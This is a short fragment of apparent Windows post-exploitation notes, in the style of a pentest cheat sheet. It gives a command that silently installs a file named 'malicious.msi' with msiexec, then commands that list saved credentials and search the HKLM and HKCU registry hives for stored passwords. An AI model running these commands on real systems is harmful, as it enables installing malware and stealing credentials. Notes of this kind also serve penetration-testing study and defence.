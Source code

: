 transfer the file to windows machine.

run the installer

```
           
C:\Users\user\Desktop>msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi

```

**password**

- list saved credentials : `cmdkey /list`
- Registry keys potentially containing passwords : 

```
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

```